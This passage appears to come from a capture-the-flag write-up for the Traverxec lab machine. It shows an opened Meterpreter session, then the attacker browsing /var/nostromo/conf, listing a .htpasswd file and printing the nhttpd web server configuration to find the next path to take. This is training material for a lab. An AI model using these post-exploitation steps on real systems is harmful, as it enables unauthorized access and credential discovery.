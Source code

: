 ```
[*] Meterpreter session 1 opened (10.10.15.60:1337 -> 10.10.10.165:47402) at 2019-12-17 13:27:54 -0500

meterpreter > 
```

## User Flag
After some manual exploration we find some interesting content inside of the `/var/nostromo/conf` directory. There's an `.htpasswd` file, but we don't need to use that, at least not the way we're going about this. What's interesting in this directory is the configuration file, `nhttpd.conf`, which indicates the existence of another folder we need to take a look at.



```console
meterpreter > cd /var/nostromo/conf
meterpreter > ls
Listing: /var/nostromo/conf
===========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  41    fil   2019-10-25 15:20:50 -0400  .htpasswd
100644/rw-r--r--  2928  fil   2019-10-25 14:43:20 -0400  mimes
100644/rw-r--r--  498   fil   2019-10-27 16:12:13 -0400  nhttpd.conf

meterpreter > cat nhttpd.conf
# MAIN [MANDATORY]

servername    traverxec.htb
serverlisten    *
serveradmin   david@traverxec.htb
serverroot    /var/nostromo
servermimes   conf/mimes
docroot     /var/nostromo/htdocs
docindex    index.html

# LOGS [OPTIONAL]

logpid      logs/nhttpd.pid

# SETUID [RECOMMENDED]

user      www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess    .htaccess
htpasswd    /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons      /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs    /home
homedirs_public   public_www

```
